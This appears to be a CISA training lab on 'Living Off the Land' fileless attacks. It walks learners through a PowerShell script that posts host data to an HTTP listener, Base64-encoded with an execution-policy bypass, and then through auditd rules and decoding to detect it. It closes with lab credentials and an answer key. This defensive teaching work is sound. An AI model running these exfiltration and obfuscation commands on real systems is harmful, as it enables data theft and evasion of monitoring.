 # Living Off the Land Fileless Malware Attacks

When a threat actor uses tools already installed on a system to complete their attack and blend in with legitimate administrative activities, they are using a technique known as Living Off the Land (LOTL). These attacks are challenging to detect because the tools used often have a legitimate administrative functions within the environment. Identifying LOTL activity can be difficult due to a lack of traditional indicators of compromise and many organizations rely on default logging configurations that do not distinguish between malicious and legitimate IT activity.

This lab incorporates recommendations provided in the joint publication <a href="https://www.cisa.gov/resources-tools/resources/identifying-and-mitigating-living-land-techniques" target="_blank">Identifying and Mitigating Living Off the Land Techniques</a>.

- This lab is expected to take one (1) hour

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

**Caution!** You must complete _all_ phases of the lab and complete the mini-challenge to receive your completion certificate. We encourage you to attempt mini-challenges on your own, but links to the solution guides are available in the Mini-Challenge section of the lab document if you need them.

## Learning Objectives
- Explain the concept of fileless malware and how attackers abuse PowerShell for stealthy execution.
- Encode and execute a malicious PowerShell command using Base64.
- Demonstrate data exfiltration using PowerShell over a network using HTTP.
- Simulate an adversary using Living Off the Land techniques to bypass traditional defenses.


## Learner Expectations
- Be comfortable with command line operations
- Have a basic familiarity with PowerShell


## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 5 (Incident Detection and Response).

**NICE Work Role**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Defensive Cybersecurity</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1084</a>: Identify anomalous network activity
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1299</a>: Determine causes of network alerts
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1347</a>: Detect cybersecurity attacks and intrusions
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1348</a>: Distinguish between benign and potentially malicious cybersecurity attacks and intrusions
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1350</a>: Perform continuous monitoring of system activity

<!-- cut -->

## Scenario
In this lab you are presented with two (2) servers running Ubuntu. One is a base installation and the other has additional logging tools added. After constructing a basic fileless malware attack, you will examine the system logs generated. After adding enhanced logging you will see the additional details about the attack that are revealed.


## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Attack-Console | Kali | user | tartans|
| Base-Ubuntu | Ubuntu | user | tartans |
| Logging-Ubuntu | Ubuntu | user | tartans |
| Mini-Challenge | Ubuntu | user | tartans |

| &#9888; NOTE |
|---|
| You are given access to the remote systems in this lab. In real world scenarios threat actors gain access through a variety of means such as phishing, using weak or compromised credentials, and exploiting vulnerabilities. |


## Phase 1: Fileless Malware Attacks Using PowerShell
<details>
<summary>
<h3>Phase 1 Introduction</h3>
</summary>
<p>

A tool commonly exploited in Living Off the Land attacks is PowerShell, a powerful scripting language widely used for automation and system administration. Its deep integration with Windows, as well as its ability to integrate with Linux and macOS operating systems, has made it an attractive tool for attackers to use in LOTL attacks.

PowerShell can be used in fileless malware attacks; a type of malicious activity where the malware operates in memory making it harder to detect.

For Phase 1, you will perform a LOTL attack using PowerShell to exfiltrate data from a remote system to the `Attack-Console`

</p>
</details>

<details>
<summary>
<h3>Start an HTTP Listener</h3>
</summary>
<p>

Tools and techniques that allow threat actors to maintain communications with compromised devices are known as Command and Control Infrastructure. Sometimes shortened to C2 or C&C. The implementation of C2 systems can vary greatly, but at their core they provide communication channels for sending instructions, downloading payloads, or receiving exfiltrated data.

You will be using a basic HTTP Listener to act as your C2 system to receive the data you exfiltrate.

1. Open the `Attack-Console` and open FireFox using the shortcut on the Desktop.

2. (**Attack-Console**, **FireFox**) Navigate to `https://skills.hub/lab/files` or click on the **Hosted Files** from the Skills Hub landing page.

3. (**Attack-Console**, **FireFox**) Download the file `httpListener.py`.

| &#129513; WHAT'S THAT SCRIPT DOING? |
| --- |
| A summary of how the `httpListener.py` script works has been provided within the script. Use Visual Studio Code (VSCode) to open it and take a look at how it works. |

4. (**Attack-Console**) Open a Terminal by double-clicking on the Terminal Emulator Desktop shortcut or by clicking on Terminal Emulator in the Panel.

![Attack-Console desktop showing Terminal Emulator shortcut](./img/TERM-OPEN.png)

5. (**Attack-Console**, **Terminal**) Navigate to the Downloads directory using the command `cd /home/user/Downloads`.

![Terminal in Downloads directory after cd command](./img/PH1-HTTP-05.png)

6. (**Attack-Console**, **Terminal**) Start the HTTP Listener using the command `python3 httpListener.py`. The HTTP Listener will remain active as long as the Terminal Window remains open.

![Terminal running python3 httpListener.py script](./img/PH1-HTTP-06.png)

| &#128736; HTTP Listener |
|---|
| The HTTP listener attaches (binds) itself to the IP address of the `Attack-Console` on port `8080`. It listens for HTTP requests to that IP address and port, for example `http://10.5.5.100:8080`, and displays in the Terminal any data it receives. |

7. (**Attack-Console**, **Terminal**) In the Terminal menu, click on **Terminal** > **Set Title**.

![Terminal menu open showing Set Title option](./img/PH1-HTTP-07.png)

8. (**Attack-Console**, **Terminal**) Type "HTTP Listener" into the textbox and press Enter. This names the session "HTTP Listener" and will make it easier to locate later.

![Terminal title set to “HTTP Listener”](./img/PH1-HTTP-08.png)

</p>
</details>

<details>
<summary>
<h3>Use PowerShell to Exfiltrate System Data</h3>
</summary>
<p>

1. From the `Attack-Console`, Open a new Terminal by double-clicking on the Terminal Emulator Desktop shortcut or by clicking on Terminal Emulator in the Panel.

![Attack-Console desktop showing Terminal Emulator shortcut](./img/TERM-OPEN.png)

2. (**Attack-Console**, **Terminal**) Determine the IPv4 address of `Attack-Console` by typing the command `hostname -I | awk '{print $1}'`. This IP address will be used as the target for exfiltrated data. After you have recorded the IPv4 address, you may close the Terminal Window.

![Terminal output showing Attack-Console IPv4 address](./img/PH1-EXFIL-02.png)

3. (**Attack-Console**) Open Visual Studio Code by double-clicking on the Visual Studio Code shortcut on the Desktop.

![Visual Studio Code desktop shortcut](./img/VSCODE-OPEN.png)

4. (**Attack-Console**, **Visual Studio Code**) In the Menu bar, click on **File** > **New Text File** to open a blank text file. You will use this text file to prepare your commands before copying them to the Terminal Emulator.

![VS Code with new text file opened for script](./img/PH1-EXFIL-04.gif)

5. (**Attack-Console**, **Visual Studio Code**) Copy the below PowerShell script into Visual Studio Code.

| &#9888; NOTE |
|---|
| When copying into the virtual machine console, extra spaces or tabs can be inserted. Make sure to remove these spaces so your script matches what you copied. |

```powershell
$info = @{
    'Hostname' = hostname;
    'User' = whoami;
    'IP' = (hostname -I);
} | ConvertTo-Json;

Invoke-WebRequest -Uri 'http://<YOUR_IP_HERE>:8080' `
    -Method Post `
    -Body $info `
    -ContentType 'application/json'
```

6. (**Attack-Console**, **Visual Studio Code**) In line 7 of the PowerShell script, replace the `<YOUR_IP_HERE>` section with the `Attack-Console`'s IP address you identified in Step 2.

![VS Code showing PowerShell script with IP placeholder replaced](./img/PH1-EXFIL-06-IP-REPLACE.gif)

In this script, the Linux commands `hostname`, `whoami` and `hostname -I` are run to retrieve system information from the host. The values are stored in the `$info` hashtable and then converted to a JSON string.

The `Invoke-WebRequest` Cmdlet is used to send an HTTP request to the destination.
- `-Uri 'http://5.5.5.124:8080'` - Specifies the destination server and port.
- `-Method Post` - Sends the data using the HTTP POST method.
- `-Body $info` - Sends the JSON-formatted data stored in the `$info` hashtable.
- `-ContentType 'application/json'` - Specifies that the data being sent is in JSON format.

![Attack-Console `Invoke-WebRequest` Cmdlet](./img/PH1-EXFIL-06.png)

7. (**Attack-Console**) Open a new Terminal by double-clicking on the Terminal Emulator Desktop shortcut or by clicking on Terminal Emulator in the Panel.

![Attack-Console desktop showing Terminal Emulator shortcut](./img/TERM-OPEN.png)

8. (**Attack-Console**, **Terminal**) In the Terminal menu, click on **Terminal** > **Set Title**.

![Terminal menu open showing Set Title option](./img/PH1-EXFIL-08.png)

9. (**Attack-Console**, **Terminal**) Type "SSH Base-Ubuntu" into the textbox and press Enter.

![Terminal title set to "SSH Base-Ubuntu"](./img/PH1-EXFIL-09.png)

10. (**Attack-Console**, **Terminal**) Use SSH to connect to the `Base-Ubuntu` server with the command `ssh user@base-ubuntu`. If asked if you want to continue connecting, type `yes` and press Enter.

![SSH connection attempt to Base-Ubuntu system](./img/PH1-EXFIL-10.png)

11. (**Attack-Console**, **Terminal**) Enter the password `tartans` and press Enter to connect.

12. (**Attack-Console**, **SSH Connection**) Start PowerShell with the command `pwsh -NoProfile -ExecutionPolicy Bypass`.

- `-NoProfile` Ensures that PowerShell starts without loading any user-specific profile scripts to improve both speed and prevent unwanted scripts from interfering.
- `-ExecutionPolicy Bypass` Overrides the system's PowerShell script execution policy allowing the script to run regardless of restrictions. This is used to evade PowerShell security controls.

![PowerShell session started with pwsh -NoProfile -ExecutionPolicy Bypass](./img/PH1-EXFIL-12.png)

| &#129513; SO ANYONE CAN BYPASS AN EXECUTION POLICY? |
| --- |
| While `-ExecutionPolicy Bypass` allows a user to override the local execution policy to run a PowerShell script, administrators are able to block it using tools such as Group Policy Objects (GPO) or AppLocker. These blocks and restrictions are often not in place because PowerShell is a commonly used administrative tool and viewed as "safe". This false safety is exploited by threat actors using Living Off the Land techniques. Putting appropriate restrictions in place greatly limits a threat actor's ability to exploit native tools for malicious activity. |

13. (**Attack-Console**, **Visual Studio Code**) Copy the PowerShell script you crafted above in Step 6 from Visual Studio Code.

14. (**Attack-Console**, **SSH Connection**, **PowerShell Prompt**) Paste the PowerShell script into the PowerShell prompt. Press Enter to execute the commands.

![PowerShell prompt with exfiltration script pasted](./img/PH1-EXFIL-14.png)

*Leave this Terminal and SSH session open and remain within the PowerShell prompt. We will use it again in a later step.*

15. (**Attack-Console**, **Terminal**, **HTTP Listener**) Return to the Terminal Window titled "HTTP Listener". The data you just exfiltrated from `Base-Ubuntu` appears.

![HTTP Listener terminal showing exfiltrated system data](./img/PH1-EXFIL-15.png)

**Knowledge Check Question 1:** *What is the IPv4 address of base-ubuntu in the output of the http-listener.*

</p>
</details>

<details>
<summary>
<h3>Obfuscate Commands Using Base64</h3>
</summary>
<p>

You successfully exfiltrated basic system data using PowerShell! But the commands that were run seem suspicious, especially written in plain text. To cover their actions, threat actors will convert the commands to Base64 before executing them.

1. Return to Visual Studio Code.

2. (**Attack-Console**, **Visual Studio Code**) In the Menu bar, click on **File** > **New Text File** to open a blank text file. You will use this text file to prepare your commands before copying them to the Terminal Emulator.

3. (**Attack-Console**, **Visual Studio Code**) Copy the below PowerShell script into Visual Studio Code.

```powershell
$command = @"
`$info = @{
    'Hostname' = hostname;
    'User' = whoami;
    'IP' = (hostname -I);
} | ConvertTo-Json;
Invoke-WebRequest -Uri 'http://<YOUR_IP_HERE>:8080' -Method Post -Body `$info -ContentType 'application/json'
"@
```

| &#9888; NOTE |
|---|
| When copying into the virtual machine console, extra spaces or tabs can be inserted. Make sure to remove these spaces so your script matches what you copied. |

4. (**Attack-Console**, **Visual Studio Code**) In line 7 of the PowerShell script, replace the `<YOUR_IP_HERE>` section with the `Attack-Console`'s IP address you identified previously.

![VS Code showing PowerShell script with IP replaced](./img/PH1-OBF-04.gif)

5. From the `Attack-Console`, open a new Terminal by double-clicking on the Terminal Emulator Desktop shortcut or by clicking on Terminal Emulator in the Panel. We won't title this Terminal since it will only be used temporarily to create the encoded command.

![Attack-Console desktop showing Terminal Emulator shortcut](./img/TERM-OPEN.png)

6. (**Attack-Console**, **Terminal**)  Start PowerShell with the command `pwsh`.

![Terminal running pwsh command](./img/PH1-OBF-06.png)

7. (**Attack-Console**, **PowerShell Prompt**) Copy the PowerShell script you crafted above in Step 4 from Visual Studio Code.

8. (**Attack-Console**, **SSH Connection**, **PowerShell Prompt**) Paste the PowerShell script into the PowerShell prompt. Press Enter to execute the commands.

| &#128270; INFORMATION |
|---|
| The commands being run are the same ones you executed on the remote system, but here we are storing the data in a hash table variable named `$command`. This variable will be used to convert the commands to Base64 in the following steps |

![PowerShell prompt with script stored in $command variable](./img/PH1-OBF-08.png)

9. (**Attack-Console**, **PowerShell Prompt**) Convert the contents of `$command` to a byte array using Unicode (UTF-16LE) by entering the following command into the PowerShell Prompt.

```powershell
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
```

![PowerShell prompt converting $command to Unicode byte array](./img/PH1-OBF-09.png)

10. (**Attack-Console**, **PowerShell Prompt**) Take the contents of `$bytes` and convert to a Base64 string by entering the following command into the PowerShell Prompt.

```powershell
$encodedCommand = [Convert]::ToBase64String($bytes)
```

![PowerShell prompt converting byte array to Base64 string](./img/PH1-OBF-10.png)

11. (**Attack-Console**, **PowerShell Prompt**) Print the Base64 encoded string stored in `$encodedCommand` to the Terminal by entering the following command into the PowerShell Prompt.

```powershell
Write-Output $encodedCommand
```

![PowerShell prompt displaying Base64 encoded string](./img/PH1-OBF-11.png)

12. (**Attack-Console**) Return to Visual Studio Code.

13. (**Attack-Console**, **Visual Studio Code**) In the Menu bar, click on **File** > **New Text File** to open a blank text file.

14. (**Attack-Console**, **Visual Studio Code**) Copy the Base64 encoded command from the PowerShell Prompt to the text file.

| &#128204; You will use this output several times in the lab, so make sure to keep it handy! |
|---|

15. (**Attack-Console**, **Terminal**) After you have copied the Base64 encoded command, close the Terminal Window.

16. (**Attack-Console**) Return to the Terminal Window titled "SSH Base-Ubuntu".

17. (**Attack-Console**, **SSH Session**) Execute the encoded command by entering the following command, making sure to replace <BASE64> with the Base64 Command you created above in Step 6.

```bash
pwsh -EncodedCommand <BASE64>
```

![SSH session executing pwsh -EncodedCommand <BASE64>](./img/PH1-OBF-17.png)

18. (**Attack-Console**, **Terminal**, **HTTP Listener**) Return to the Terminal Window titled "HTTP Listener". The data exfiltrated from `Base-Ubuntu` appears.

![HTTP Listener terminal showing exfiltrated system data](./img/PH1-OBF-18.png)

| &#129513; KEY POINT |
|---|
| The exfiltrated data is the same because it used the same commands; the only difference was they were obfuscated.|

**Knowledge Check Question 2:** *Which type of encoding did you use to obfuscate the PowerShell script - XOR, ROT13, or Base64?*

</p>
</details>

<details>
<summary>
<h3>Reviewing Log Files</h3>
</summary>
<p>

The system `Base-Ubuntu` is using the default logging enabled when Ubuntu Server is freshly installed. Review the logs to see what traces of your data exfiltration are present.


1. (**Attack-Console**) Return to the Terminal Window titled "SSH Base-Ubuntu".

2. (**Attack-Console**, **SSH Session**) Use `grep` to search the syslog log file for the word "powershell" with the command: `sudo cat /var/log/syslog | grep powershell`.

3. (**Attack-Console**, **SSH Session**) If prompted, enter the `sudo` password `tartans` and press Enter.

4. (**Attack-Console**, **SSH Session**) Reviewing the syslog log file, note there are logs that PowerShell was starting, and it was ready for user input, but there is no record of the commands that were run. The logs also do not indicate which user started PowerShell.

![Syslog showing PowerShell startup entry](./img/PH1-LOG-06.png)

| &#129513; Understanding Default Logging in Syslog |
| --- |
| Reviewing syslog in its default state you notice that it provides only basic system-level information recording events such as service starts/stops, authentication attempts, and kernel messages. This is because syslog is designed for general system logging rather than in-depth security auditing. This level of logging is often insufficient for detecting and identifying threats.<br><br>Later in this lab you will enable additional logging that provides more detailed visibility into system activity. By comparing what is (and isn’t) logged in the default state to the logs you’ll generate later, you’ll gain a better understanding of why proper logging configuration is essential for detecting fileless malware and other advanced threats. |

6. (**Attack-Console**, **SSH Session**) Locate the Phase 1 token with the command `sudo cat /var/log/syslog | grep lab_completion`. Enter this token to advance to Phase 2 of the lab!

![Syslog showing lab_completion token](./img/PH1-LOG-07.png)

7. (**Attack-Console**, **SSH Session**) Close the "SSH Base-Ubuntu" Terminal window.


</p>
</details>

</p>
</details>

## Phase 2: Logging To Help Identify Living Off the Land Attacks
<details>
<summary>
<h3>Phase 2 Introduction</h3>
</summary>
<p>

Audit Daemon (`auditd`) is an auditing framework for Linux that helps system administrators and security professionals track and log system events. It provides detailed insight into system activities, including file access, command execution, user logins, and security policy modifications. By configuring audit rules, administrators can monitor specific files, processes, and system calls, ensuring compliance with security policies and detecting potential threats.
</p>
</details>

<details>
<summary>
<h3>Adding Rules to Auditd</h3>
</summary>
<p>


1. From the `Attack-Console`, open a new Terminal window.

2. (**Attack-Console**, **Terminal**) In the Terminal menu, click on **Terminal** > **Set Title**.

3. (**Attack-Console**, **Terminal**) Type "SSH Logging-Ubuntu" into the textbox and press Enter.

4. (**Attack-Console**, **Terminal**) Use SSH to connect to the `Logging-Ubuntu` server with the command `ssh user@logging-ubuntu`. If asked if you want to continue connecting, type `yes` and press Enter.

![SSH terminal connected to Logging-Ubuntu](./img/PH2-AUD-02.png)

5. (**Attack-Console**, **Terminal**) Enter the password `tartans` and press Enter to connect.

6. (**Attack-Console**, **SSH Session**) Create a new rules file called `powershell.rules` with the command `sudo nano /etc/audit/rules.d/powershell.rules`. If prompted, enter the `sudo` password `tartans` and press Enter.

![Nano editor creating powershell.rules file](./img/PH2-AUD-04.png)

| &#128270; INFORMATION |
|---|
| Component audit rules (here `powershell.rules`) are placed in the audit rules directory (`/etc/audit/rules.d`). For ease of management, multiple rule files can be created and named according to the specific system event(s) being monitored or logged. |

7. (**Attack-Console**, **SSH Session**, **Nano Editor**) Create a rule to audit the execution of the PowerShell binary by entering the following rule.

```rules
-a always,exit -F arch=b64 -S execve -F path=/opt/microsoft/powershell/7/pwsh -F key=powershell_exec
```

This rule will audit the execution of the PowerShell binary by tracking the `execve` system call. Breaking it down further:
- `-a always,exit` - Log every exit of the specified system call (`execve`)
- `-F arch=b64` - Specifies the CPU architecture as 64-bit
- `-F path=/opt/microsoft/powershell/7/pwsh` - Filters to include events involving the PowerShell binary
- `-k powershell_exec` - Assigns a key to the log entry so the audit logs can be easily searched

![Nano editor showing rule to audit PowerShell execution](./img/PH2-AUD-05.png)

8. (**Attack-Console**, **SSH Session**, **Nano Editor**) Write out (save) your changes in Nano by pressing Ctrl+o.

9. (**Attack-Console**, **SSH Session**, **Nano Editor**) Confirm the filename by pressing Enter.

10. (**Attack-Console**, **SSH Session**, **Nano Editor**) Exit Nano by pressing Ctrl+x.

11. (**Attack-Console**, **SSH Session**) Add the `powershell.rules` to the main rules file with the command `sudo augenrules --load`.

| &#128270; INFORMATION |
|---|
| `augenrules` is a script that processes and merges all component audit rules in the `rules.d` directory into the main `audit.rules` file. It processes the rules in order and removes any empty or commented lines. |

12. (**Attack-Console**, **SSH Session**) Verify the rules were successfully added to the main rules file with the command `sudo auditctl -l`.

![auditctl -l output confirming powershell_exec rule](./img/PH2-AUD-10.png)

**Knowledge Check Question 1:** *What is the full path of the PowerShell binary on the logging-ubuntu system?*

</p>
</details>


<details>
<summary>
<h3>Reattempt of Obfuscated Commands Using Base64</h3>
</summary>
<p>

| &#128204; If not already running, please start the HTTP Listener following the steps in Phase 1. |
|---|

1. (**Attack-Console**, **SSH Session**) Execute the encoded command you created in Phase 1 by entering the following command, making sure to replace <BASE64> with the Base64 Command you previously created.

```bash
pwsh -EncodedCommand <BASE64>
```

![SSH terminal running pwsh -EncodedCommand <BASE64>](./img/PH2-OBF-01.png)

2. (**Attack-Console**, **SSH Session**) Search the audit logs for the key `powershell_exec` with the command.

```bash
sudo ausearch -k powershell_exec
```

![SSH terminal showing ausearch log with decoded command details](./img/PH2-OBF-02.png)

3. (**Attack-Console**, **SSH Session**) Compared to the syslog entry you examined at the end of Phase 1, the auditd log contains much more detail, including the command that was run (lines 19 through 25) and the user ID (uid) of the user who executed it (line 29).

```text
01 | time->XXXX XXX  X XX:XX:XX 20XX
02 | type=PROCTITLE msg=audit(1738858549.467:322):
03 | proctitle=70777368002D456E636F646564436F6D6D616E64004A414270414734415A674276414341415051
04 | 4167414541416577414B4143414149414167414341414A774249414738416377423041473441595142744147
05 | 55414A774167414430414941426F41473841637742304147344159514274414755414F77414B414341414941
06 | 41
07 |
08 | type=PATH msg=audit(1738858549.467:322): item=1 name="/lib64/ld-linux-x86-64.so.2"
09 | inode=395840 dev=fc:00 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0
10 | cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
11 |
12 | type=PATH msg=audit(1738858549.467:322): item=0 name="/usr/bin/pwsh" inode=395563
13 | dev=fc:00 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0
14 | cap_fe=0 cap_fver=0 cap_frootid=0
15 |
16 | type=CWD msg=audit(1738858549.467:322): cwd="/home/user"
17 |
18 | type=EXECVE msg=audit(1738858549.467:322): argc=3 a0="pwsh" a1="-EncodedCommand"
19 | a2="JABpAG4AZgBvACAAPQAgAEAAewAKACAAIAAgACAAJwBIAG8AcwB0AG4AYQBtAGUAJwAgAD0AIABoAG8AcwB0
20 | AG4AYQBtAGUAOwAKACAAIAAgACAAJwBVAHMAZQByACcAIAA9ACAAdwBoAG8AYQBtAGkAOwAKACAAIAAgACAAJwBJ
21 | AFAAJwAgAD0AIAAoAGgAbwBzAHQAbgBhAG0AZQAgAC0ASQApADsACgB9ACAAfAAgAEMAbwBuAHYAZQByAHQAVABv
22 | AC0ASgBzAG8AbgA7AAoASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0
23 | AHQAcAA6AC8ALwAxADAALgA1AC4ANQAuADEAMgA0ADoAOAAwADgAMAAnACAALQBNAGUAdABoAG8AZAAgAFAAbwBz
24 | AHQAIAAtAEIAbwBkAHkAIAAkAGkAbgBmAG8AIAAtAEMAbwBuAHQAZQBuAHQAVAB5AHAAZQAgACcAYQBwAHAAbABp
25 | AGMAYQB0AGkAbwBuAC8AagBzAG8AbgAnAA=="
26 |
27 | type=SYSCALL msg=audit(1738858549.467:322): arch=c000003e syscall=59 success=yes exit=0
28 | a0=55b3d0982ed0 a1=55b3d0862ce0 a2=55b3d0977b00 a3=55b3d0926cf0 items=2 ppid=1613
29 | pid=1819 auid=1000 uid=1000 gid=1000 euid=1000 suid=1000 fsuid=1000 egid=1000 sgid=1000
30 | fsgid=1000 tty=pts0 ses=1 comm="pwsh" exe="/opt/microsoft/powershell/7/pwsh"
31 | subj=unconfined key="powershell_exec"
```

4. (**Attack-Console**, **SSH Session**) The username of the person who executed the command can be found by searching the `/etc/passwd` file for the UID with the command `cat /etc/passwd | grep 1000`.

![SSH terminal showing /etc/passwd entry for UID 1000](./img/PH2-OBF-04.png)

Since you ran the command, the UID traces back to the `user` user. When investigating suspicious PowerShell commands being run, being able to identify the user account is helpful to narrow your investigation.


| &#128270; WHAT IS `/etc/passwd` |
| --- |
| The `/etc/passwd` file is a system file that stores information about user accounts. This file is readable by all users but only writable by the root user. Each line represents a single user and contains several fields separated by colons (`:`). These fields include:<br><br>- **Username** – The login name of the user.<br>- **Password Placeholder** – Historically, this contained the actual password hash, but now it typically contains an x, indicating the password is stored securely in `/etc/shadow`.<br>- **User ID (UID)** – A unique numerical identifier for the user. The root user always has UID 0.<br>- **Group ID (GID)** – The primary group associated with the user.<br>- **User Info (GECOS field)** – An optional field that can contain a user’s full name or other information.<br>- **Home Directory** – The path to the user’s home folder.<br>- **Login Shell** – The default shell that runs when the user logs in (e.g., `/bin/bash`). |


**Knowledge Check Question 2:** *What system file contains information about a user's account?*

5. (**Attack-Console**, **SSH Session**) Locate the Phase 2 token with the command `sudo cat /var/log/syslog | grep lab_completion`. Enter this token to advance to the Mini-Challenge of the lab!

| &#129513; A Word on Logging: |
| --- |
| The configuration used in this lab doesn't even begin to scratch the surface of the types of logging that can be enabled using `auditd`. While the initial impulse may be to enable everything, keep in mind the impact this will have. A high volume of logs can create a large amount of noise making it easier to miss outliers and leading to alert fatigue. Having an understanding of your environment baseline and tuning your logging appropriately will help reduce noise and improve your detection accuracy. |
</p>
</details>

<details>
<summary>
<h3>Decoding The Command</h3>
</summary>
<p>

In the lab environment you know the commands executed by the Base64 encoded command. But what if you encountered this during an investigation? Fortunately just as you were able to encode the commands, you can decode them to see what was run. To do this we will use CyberChef, a web application that can be used for encryption, encoding, compression, and data analysis.

1. (**Attack-Console**) Open FireFox.

2. (**Attack-Console**, **FireFox**) Click on CyberChef from the Bookmarks Toolbar.

3. (**Attack-Console**, **FireFox**, **CyberChef**) In the upper-right "Input" box, paste the encoded command from the log file.

![CyberChef input box with Base64 string pasted](./img/PH3-CC-03.png)

4. (**Attack-Console**, **FireFox**, **CyberChef**) In the Operations pane (on the left), drag "From Base64" to the Recipe box.

![CyberChef recipe box with From Base64 operation](./img/PH3-CC-04.png)

5. (**Attack-Console**, **FireFox**, **CyberChef**) In the Operations pane's search field, search for "null".

6. (**Attack-Console**, **FireFox**, **CyberChef**) In the Operations pane, drag "Remove null bytes" to the recipe box.

![CyberChef recipe box with Remove null bytes operation](./img/PH3-CC-06.png)

7. (**Attack-Console**, **FireFox**, **CyberChef**) With the Recipe built, examine the "Output" box. This is the decoded command. Compare it to the commands you used earlier and note that they match!

![CyberChef output box showing decoded PowerShell command](./img/PH3-CC-07.png)
</p>
</details>

</p>
</details>

## Mini-Challenge

<details>
<summary>
<h3>Click Here to Access the Mini-Challenge</h3>
</summary>
<p>

A new server (`mini-challenge`) has been added to the environment. Syslog shows PowerShell is being launched, but it is not known *who* is running the commands or *what* commands are being run.

*A solution guide link is available following the grading section, should you need it.*

### Mini-Challenge Objectives
- Configure enhanced logging on `mini-challenge` to identify who is running the PowerShell Commands
- Identify what PowerShell command is being run
- Decode the PowerShell command and locate the Secret Token

Note that you may need to wait a few minutes before the Powershell attempts appear in the logs *after* you configure enhanced logging.

### Grading Check

- Based on the User ID (UID), what is the **username** of the account that is running the PowerShell commands?

- What was the Secret Token being sent by the threat actor?


`Copy any token or flag strings to the corresponding question submission field to receive credit.`

*Please attempt the mini-challenge as best you can, but if you get stuck you can use the solution guide found <a href="https://github.com/cisagov/prescup-challenges/tree/main/skilling-continuation-labs/living-off-the-land-attacks/solution/README.md" target="_blank">here</a> for assistance.*
</p>
</details>

<details>
<summary>
<h2>Lab Wrap Up</h2>
</summary>
<p>

### Conclusion

By completing this lab you have become more familiar with attacks that use native tools to avoid detection.

To recap:
- You exfiltrated data using PowerShell Commands.
- You obfuscated your commands using Base64.
- You created `auditd` rules to detect and capture PowerShell commands.
- You decoded a Base64 PowerShell command.

Skills exercised:
- S0838: Skill in identifying anomalous activities
- S0839: Skill in identifying exploited system weaknesses
- S0840: Skill in identifying misuse activities
- S0846: Skill in monitoring system activity

Enabling additional logging to detect abuse of PowerShell increases the likelihood of early detection and response to Living Off the Land style attacks.

### References

 - <a href="https://www.cisa.gov/resources-tools/resources/identifying-and-mitigating-living-land-techniques" target="_blank">Identifying and Mitigating Living Off the Land Techniques</a>
 - <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL) Plan</a>
 - <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>

</p>
</details>


<details>
<summary>
<h2>Answer Key</h2>
</summary>
<p>

**Knowledge Check Question 1**: *What is the IPv4 address of base-ubuntu in the output of the http-listener?*

- `10.1.1.151`

**Knowledge Check Question 2**: *Which type of encoding did you use to obfuscate the powershell script - XOR, ROT13, or Base64?*

- *Base64 | base64*

**Knowledge Check Question 3**: *What is the full path of the powershell binary on the logging-ubuntu system (include the "pwsh" filename)?*

- `/opt/microsoft/powershell/7/pwsh`

**Knowledge Check Question 4**: *What system file contains information about a user's account (do not include the path)?*

- *passwd*

</p>
</details>

